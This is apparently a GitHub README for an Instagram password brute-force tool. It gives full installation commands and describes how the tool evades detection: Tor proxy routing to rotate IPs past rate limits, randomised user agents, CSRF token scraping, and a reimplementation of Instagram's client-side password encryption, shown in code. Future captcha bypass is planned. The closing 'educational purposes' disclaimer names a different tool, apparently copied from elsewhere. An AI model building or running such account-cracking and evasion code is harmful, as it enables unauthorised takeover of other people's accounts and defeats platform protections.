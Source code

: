 # Foxynsta_bruteforce

![image](https://github.com/torino64/Insta_bruteforce/assets/47543092/70e9563f-c927-4bca-956f-4738a5956773)

foxynsta_bruteforce is a professionally crafted Python script tailored for evaluating the password strength of Instagram accounts, employing a robust bruteforce attack approach. This tool is platform-agnostic and seamlessly compatible with Kali Linux/Ubuntu/Parrot OS operating systems, ensuring flexibility for users across different computing environments. To enhance anonymity and security, Instagrame_bruteforce integrates Tor service, routing its network requests through the Tor network for added privacy and protection.

# Installation
# Kali Linux/Ubuntu/Parrot OS:

```
sudo apt-get update
sudo apt-get install git
sudo apt-get install tor
sudo apt install python3
sudo apt-get install pip
pip install --upgrade pip setuptools
git clone https://github.com/torino64/Foxynsta_bruteforce.git
ls
cd Insta_bruteforce
ls
pip install -r requirements.txt
sudo service tor start
sudo service tor status
ctrl +c
sudo python3 foxynsta_bruteforce.py
```
If you encounter an issue when trying to run 'foxynsta_bruteforce,' it's essential to verify your Tor configuration. Ensure that Tor has been correctly set up with the control port enabled. You can inspect the Tor configuration file, usually found at /etc/tor/torrc, and confirm that it includes the following line:

```
ControlPort 9051
```
If it's not there, add it, and then restart Tor.


# Unlocking Instagram: The Game-Changing Features of Our Brute Force Tool

What truly sets this Instagram brute force tool apart from others, readily available on GitHub, is its meticulous attention to both security and evasion techniques. While some tools might merely initiate the Tor service and proceed with the attack, this tool takes a much more comprehensive approach. It seamlessly integrates Tor proxies into its network requests to ensure anonymity and dynamic IP address rotation during the brute force operation.

The tool achieves this by configuring Tor proxies as follows:

```
self.proxies = {
    'http': 'socks5://127.0.0.1:9050',
    'https': 'socks5://127.0.0.1:9050'
}
```

By doing so, all communication between the tool and the Instagram server is meticulously routed through the Tor network, providing a constantly changing public IP address. Without this integration, even if the Tor service is running (as initiated with the 'sudo service tor start' command), making requests without these proxies, as shown below:

```
data = json.loads(requests.get('https://www.instagram.com/data/shared_data/', headers=headers).text)
```

would result in a static public IP address. Consequently, with just a few unsuccessful attempts, the tool would risk being blocked, limiting brute force attempts to a mere three.

Additionally, this tool boasts an 'encrypt_password' function, capable of encrypting passwords before they are sent to the server. As an essential security measure, this function accepts parameters such as 'key_id', 'pub_key', 'password', and 'version'. It's vital to note that sending unencrypted passwords to the server would not proceed with the credential verification process. To acquire the necessary parameters for 'encrypt_password', the tool sources them from 'https://www.instagram.com/data/shared_data/'.

```
def encrypt_password(self, key_id, pub_key, password, version=10):
            key = Random.get_random_bytes(32)
            iv = bytes([0] * 12)

            time = int(datetime.now().timestamp())
            aes = AES.new(key, AES.MODE_GCM, nonce=iv, mac_len=16)
            aes.update(str(time).encode('utf-8'))
            encrypted_password, cipher_tag = aes.encrypt_and_digest(password.encode('utf-8'))

            pub_key_bytes = binascii.unhexlify(pub_key)
            seal_box = SealedBox(PublicKey(pub_key_bytes))
            encrypted_key = seal_box.encrypt(key)

            encrypted = bytes([1,
                            key_id,
                            *list(struct.pack('<h', len(encrypted_key))),
                            *list(encrypted_key),
                            *list(cipher_tag),
                            *list(encrypted_password)])
            encrypted = base64.b64encode(encrypted).decode('utf-8')

            return quote_plus(f'#PWD_INSTAGRAM_BROWSER:{version}:{time}:{encrypted}')
```
Furthermore, the tool modifies certain attributes in the headers of the login page, 'https://www.instagram.com/accounts/login/ajax/'. For each request, it generates a unique 'user_agent' and extracts the CSRF token from 'https://www.instagram.com/data/shared_data/'. Additionally, it introduces new attributes like 'X-Asbd-Id,' among others.

While the tool encounters occasional challenges, particularly due to captchas, it persists in its quest for successful brute force attempts. Future developments will focus on devising methods to bypass captchas. Thank you for your time.

![image](https://github.com/torino64/Insta_bruteforce/assets/47543092/c73a2728-5970-41ee-88ff-e81f35d99687)

As depicted in the image above, you'll notice that the IP address undergoes frequent changes with each new request:

    AT - Austria
    NL - Netherlands
    RU - Russia
    LU - Luxembourg

The extensive text you see typically indicates a captcha-related challenge. On the other hand, other messages pertain to the waiting period during the verification process. If you come across 'authenticated: false,' it suggests an unsuccessful password attempt.

# 📢 Warning
**This tool is exclusively intended for educational purposes. We want to emphasize that if you employ this tool for any other objectives beyond education, we disclaim any responsibility for such actions. The Phone Number Information tool cannot be held accountable for misuse or any illegal activities. We strongly advise that you restrict its usage to penetration testing or educational endeavors. Remember, hacking itself is not a criminal act. We welcome pull requests with open arms, fostering a collaborative environment.**

# I'm Not A Hacker I'm A Cyber Security Professional



